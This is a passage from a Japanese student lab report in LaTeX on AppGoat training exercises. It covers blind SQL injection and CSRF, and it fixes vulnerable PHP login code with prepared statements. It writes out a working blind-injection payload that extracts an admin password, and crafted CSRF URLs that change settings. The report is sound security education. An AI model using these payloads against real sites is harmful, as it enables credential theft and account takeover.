    
\includegraphics[keepaspectratio,scale=0.35]{pic20.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic21.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、プリペアードステートメントを用いた、
値渡しによるSQL文の組み立てを行なっていないため、入力された不正な文章が
そのままSQL文として認識されてしまっていることが挙げられる。

\subsection{Level3演習}

\subsubsection*{ブラインドSQLインジェクション}
この演習において、新規登録画面のID欄において「'」と入力して、重複確認
を行ったところ、データベースエラーが発生したので、この部分にSQLインジェク
ションの脆弱性を持っていると考えられる。
脆弱性が存在する入力欄は、userのテーブルにアクセスできるので、ここから
管理者のパスワードを特定するSQL文を入力する、実際に入力する値は「sato' AND SUBSTR((SELECT password FROM user WHERE id = 'admin'),1,1) = 'a'--」
であり、この文章を入力することでパスワードの一文字目が「a」であるかどうかの
判定ができる。実際に入力した結果を図22に示す。
今回は「使用可能なIDです」と表示されていることから、一文字目は「a」ではないこと
が特定できた。これを、繰り返し用いることでパスワードが「bda」だと特定できたので、
実際にログインを行ったのが図23である。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic22.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{pic23.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、プリペアードステートメントを用いた、
値渡しによるSQL文の組み立てを行なっていないため、入力された不正な文章が
そのままSQL文として認識されてしまっていることが挙げられる。


\subsection{問2:不正なログイン(文字列リテラル)のコード修正}

以下は修正前のコードである。
\begin{lstlisting}[caption=修正前,label=bank1221.class.php]
  public function login()
  {
    $db = $this->get_db();
    $param = $this->get_param();
    try {
        // ユーザからの入力値を文字列連結してSQL文を組み立てている
        $stmt = $db->prepare("SELECT * FROM user WHERE id = '" . $param["id"] . "' AND
                              password = '" . $param["password"] .  "';");
        if ($stmt == null) {
            throw new Exception();
        }
        // プレースホルダを使わずにプリペアドステートメントを実行している
        $stmt->execute();
// 以降は省略
\end{lstlisting}

修正前のコードだと入力された文字列が値だけではなく、SQL文として認識され、
SQLインジェクションを引き起こす危険性がある。そこで、SQL文は固定で、
値のみを後から適応する形に書き換えてやる必要がある。その書き換え後の
コードが以下のものである。

\begin{lstlisting}[caption=修正後,label=bank1221.class.php]
  public function login()
  {
    $db = $this->get_db();
    $param = $this->get_param();
    try {
        // 疑問符パラメータを用いてSQLステートメントを準備する
        $stmt = $db->prepare("SELECT * FROM user WHERE id = ? AND password = ?");
        if ($stmt == null) {
            throw new Exception();
        }
        // 値の配列を渡してプリペアドステートメントを実行する
        $stmt->execute(array($param["id"], $param["password"]));
\end{lstlisting}

修正後のコードでは、SQL文中にプレースホルダとして値の場所をあらかじめ確保しておき、
後から入力された値を配列として渡している。こうすることにより、値に悪意のある
文字列が入力されたとしても、あくまでも渡される値として処理されるので、SQLインジェクション
を引き起こすことはできない。

\section{CSRF(クロスサイト・リクエスト・フォージェリ)}

\subsection{CSRFとは}
クロスサイト・リクエスト・フォージェリの脆弱性とは、ウェブサイトにログイン
したユーザが、悪意のある人によってあらかじめ用意された罠により、意図しない
リクエストを実行させられてしまう脆弱性である。この脆弱性が悪用されてしまうと、
意図しないサービスの利用(たとえば、ショッピングサイトで商品を購入)をさせ
られてしまうなどの問題を引き起こす。

\subsection{Level1演習}

\subsubsection*{脆弱性の概要および発見演習}
この演習でのサイトでは、hidden属性のトークンを確認できなかった。
パスワード変更画面のソースをコピーし、「action=」の内容を
「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1311/VulSoft/login.php?page=5}」
に書き換えたものをweb上で開くと、パスワード変更画面が表示される。
このパスワード変更画面で変更したパスワードは実際に反映され、クロスサイト・リクエスト・フォージェリ
の脆弱性を確認することができた。それら様子を以下の図24,25,26に示す。

\begin{figure}[h]
  \centering
  
\includegraphics[scale=0.4]{pic23_5.png}
  \caption{}
\end{figure}

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic24.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic25.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、トークンが設定されていないこと、パスワードの
再確認を行なっていないことなどが挙げられる。

\subsection{Level2演習}

\subsubsection*{意図しない命令の実行}
この演習のサイトでは、hidden属性のトークンを保持しているが値が固定であり、変更
直前にパスワードを求められることもないのでCSRFの脆弱性があるといえる。
また、url内のパラメーターによって設定内容を変更可能であるので、ログイン状態で
ある人が特定のurlにアクセスした場合、設定内容を変更することが可能である。
実際に作成したurlは「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1321/VulSoft/sns.php?page=4&public=1}」
である。このurlを掲示板にはり、リンクにアクセスした結果を以下の図27,28に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic26.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic27.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

url中にトークンを組み込まなくても動いていることから、トークンをチェックする
処理が抜け落ちていることが考えられる。また、トークンの値が固定であれば、チェック
を行う処理を組み込んでいても同様の攻撃が可能だと考えられる。

\subsubsection*{不完全な対策}
この演習のサイトでは、一回のログインのセッションが終了すると、次のログインでは
異なるトークンを保持していることが確認できた。しかし、そのトークンの生成方法
が「初期値(1000) + 1」であり、簡単に予測できてしまうことが判明した。以下の図29,30
にその様子を示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.5]{pic28.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.6]{pic29.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

\subsection{問3:意図しない命令の実行の新たな修正方法}
Hidden属性を用いた秘密情報の交換以外の方法でクロスサイト・リクエスト・フォージェリ
の意図しない命令を防ぐ方法として、重要な命令の直前に確認画面を設けることがあげられる。
CSRFが起きる前提条件としてユーザはログイン状態を維持している状態であり、
トークンが適切に設定されていなければ、攻撃者による罠サイトにアクセス
した時点で攻撃が成立してしまうが、パスワード認証などの確認画面を
設けることで、ユーザは身に覚えのない入力をする必要に迫られるので、
異変に気づくことができるので、CSRFを防ぐことができると考えられる。
図31はその一連の流れをまとめたものである。

\begin{figure}[h]
  \centering
